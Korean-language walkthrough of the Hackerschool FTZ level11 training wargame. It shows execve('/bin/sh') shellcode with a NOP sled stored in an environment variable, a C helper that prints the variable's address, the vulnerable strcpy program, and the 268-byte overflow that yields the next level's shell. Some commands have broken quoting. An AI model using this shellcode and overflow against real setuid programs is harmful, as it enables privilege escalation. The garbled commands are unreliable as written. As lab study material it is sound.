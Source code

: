 Hackerschool FTZ level11
===
1. EGG라는 환경변수를 만들고 nop썰매와 bin/sh를 16진수로 바꾼
 > \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80 
 
 를 저장한다
 >export EGG=` python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" '
>>\x90은 nop명령어
 2. 그 EGG의 주소 구함
 ~~~c
#include<stdio.h>
#include<stdlib.h>

int main(int argc, char* argv[]){
        printf("%p\n",getenv(argv[1]));
        return 0;
}
 ~~~

3.attackme에 버퍼오버플로우를 내고 nop썰매 안에 있을 
EGG의 주소를 넣음  
~~~c
int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
~~~
gdb 를하면 str 할당할때 256바이트를 할당해야하는데 esp(=sfp)를 264바이트를 내려 
8바이트의 dommy가 생기고 그다음 sfp는 4바이트 다음 RET가있으므로 

268바이트의 패딩이 필요
> ./attackme 
'
 python -c 'print "A"*268+\x3f\xfc\xff\xbf"'`   
>>이번경우 "\x3f\xfc\xff\xbf" 가 주소였음 

아무튼 실행하면 다음 level권한이있는 sh에 
들어가져
my-pass를 치면 된다.